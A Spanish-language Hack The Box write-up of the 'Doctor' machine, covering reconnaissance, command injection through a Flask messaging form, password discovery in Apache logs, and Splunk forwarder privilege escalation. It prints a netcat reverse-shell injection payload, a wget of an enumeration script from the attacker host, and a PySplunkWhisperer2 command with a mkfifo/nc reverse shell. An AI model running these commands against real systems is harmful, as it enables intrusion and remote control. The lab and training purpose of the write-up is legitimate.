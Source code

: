 ```yaml
---
title: Doctor HTB
author: OxDeed
date: 2020-11-10 15:29:00 -0300
tags: [splunk,ssti]
math: true
image: /htb/doctor/doctor.png
---
```


## Resumen

Empezamos con Doctor analizando el puerto `80 http` donde nos encontraremos con un posible nombre de dominio `doctors.htb`. 

Una vez agregado al file `/etc/hosts/` La pagina nos mostrara un sistema de posts-mensajeria el cual es vulnerable a ataques de tipo server-side-template-injection `(SSTI)`. Con esto seremos capaces de obtener la primera reverse shell. 

Aún debemos escalar de usuario, y solo bastara con ejecutar un `linepeash.sh` y encontraremos el pass de shaun en los logs de apache.

Como ultimo paso 
nos quedaria la escalacion de privilegios hacia root, donde nos aprovecharemos de la vulnerabilidad del `splunkforwarder` que esta corriendo en el `puerto 8089` con el exploit [**SplunkWhisperer2**](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2) para finalmente obtener el `root.txt`. 

## Pwned
<link rel="stylesheet" type="text/css" href="/assets/css/asciinema-player.css"/>
<asciinema-player src="/htb/doctor/2.cast" cols="107" rows="24"></asciinema-player>
<script type="text/javascript" src="/assets/js/asciinema-player.js"></script>

---

## Reconocimiento
```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-09 18:06 EST
Nmap scan report for doctors.htb (10.10.10.209)
Host is up (0.23s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-server-header: 
|   Apache/2.4.41 (Ubuntu)
|_  Werkzeug/1.0.1 Python/3.8.2
| http-title: Doctor Secure Messaging - Login
|_Requested resource was http://doctors.htb/login?next=%2F
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.53 seconds
  ```
---
Como podemos ver hay un correo con un posible nombre de dominio `doctors.htb` 

![Desktop View](https://i.ibb.co/PgbzhFX/1.png)
---
## Nombre de Dominio
Lo agregamos en nuestro archivo `hosts` para poder acceder.
```console
nano /etc/hosts
  ```
```console
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.209    doctors.htb
  ```
---
## SSTI

Una vez en doctors.htb nos encontramos con un sistema de posts/mensajeria donde tendremos que `registrarnos` y `logearnos`.
![Desktop View](https://i.ibb.co/qrK75gr/4.png)
![Desktop View](https://i.ibb.co/JrMHpL0/6.png)
Creamos un nuevo mensaje `New Message`
![Desktop View](https://i.ibb.co/d4VnQ1c/7.png)

---

La web esta usando `flask` la cual puede ser vulnerable a server-side-template-injection [**SSTI Payloads**](https://medium.com/server-side-template-injection/server-side-template-injection-faf88d0c7f34)

![Desktop View](https://i.ibb.co/nr8nTH6/12.png)
Capturamos el request con Burp Suite e Inyectamos con el siguiente payload: `title=curl+http%3A%2F%2Fip%2F%24%28nc.traditional%24IFS%252710.10.15.31%2527%24IFS%25274949%2527%24IFS-e%24IFS%2Fbin%2Fsh%29&content=curl http://ip/$(nc.traditional$IFS%2710.10.14.230%27$IFS%274949%27$IFS-e$IFS/bin/sh)dbody&submit=Post`

Una vez dentro, podemos usar nuestra llave pública para logearnos con `ssh`.
```console
web@doctor:~/.ssh$ ls
ls
authorized_keys
``` 
---
<asciinema-player src="/htb/doctor/1.cast" cols="107" rows="24"></asciinema-player>
---
## Privesc Shaun

Subimos el linpeash para enumerar
```console
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [09/Nov/2020 18:48:11] "GET /linpeash.sh HTTP/1.1" 200 -
``` 
---
```console
web@doctor:~$ wget 10.10.15.31/linpeash.sh

--2020-11-10 00:48:10--  http://10.10.15.31/linpeash.sh
Connecting to 10.10.15.31:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 294784 (288K) [text/x-sh]
Saving to: ‘linpeash.sh’

linpeash.sh 100%[==========================================================================================>] 287,88K   208KB/s    in 1,4s    

2020-11-10 00:48:12 (208 KB/s) - ‘linpeash.sh’ saved [294784/294784]
``` 

```console
web@doctor:~$ chmod +x linpeash.sh 
```

En los logs del apache nos encontramos con el password del usuario shaun ` Guitar123` . 
```console
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```
![Desktop View](https://i.ibb.co/5sQrcvC/11.png)

```console
web@doctor:~$ su shaun
Password: Guitar123
```
```console
shaun@doctor:~$ cat user.txt 
5eb4d98c4564ab31f0a9e00c8899d522
```
---

## Privesc Root

Luego de enumerar un poco podemos darnos cuenta que se esta ejecutando el `splunkforwarder` en este caso, si esta mal configurado podemos escalar privilegios bajo el usuario el cual esta corriendo el forwarder. [**Exploit Splunk Forwarder Explicación**](https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2)
![Desktop View](https://i.ibb.co/RQM5WtT/10.png)

```console
shaun@doctor:/opt$ ls
splunkforwarder
```
```console
tcp        0      0 0.0.0.0:8089            0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
```

### Exploiting Splunk Forwarder

Ahora que tenemos información de como podemos explotar el splunk forwarder, nos queda descargarnos la herramienta. [**SplunkWhisperer2**](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2)

Abrimos 2 Shells en la primera: 
```console
kali@kali: python PySplunkWhisperer2_remote.py --lhost 10.10.15.31 --host 10.10.10.209 --username shaun --password Guitar123 --payload '/bin/bash -c "rm /tmp/deed;mkfifo /tmp/deed;cat /tmp/deed|/bin/sh -i 2>&1|nc 10.10.15.31 3748 >/tmp/deed"'
```
En la Segunda nos ponemos a la escucha:
```console
nc -lvnp 3748
listening on [any] 3748 ...
connect to [10.10.15.31] from (UNKNOWN) [10.10.10.209] 54452
/bin/sh: 0: can't access tty; job control turned off
```
<asciinema-player src="/htb/doctor/2.cast" cols="107" rows="24"></asciinema-player>
---
![Desktop View](https://media2.giphy.com/media/aHnfrW2KBuJTZa62v0/giphy.gif)
---

## Recursos 

| Topics                       | 
|:-----------------------------|
| [**SSTI Payloads**](https://medium.com/server-side-template-injection/server-side-template-injection-faf88d0c7f34) | 
|[**Exploit Splunk Forwarder**](https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2)     |






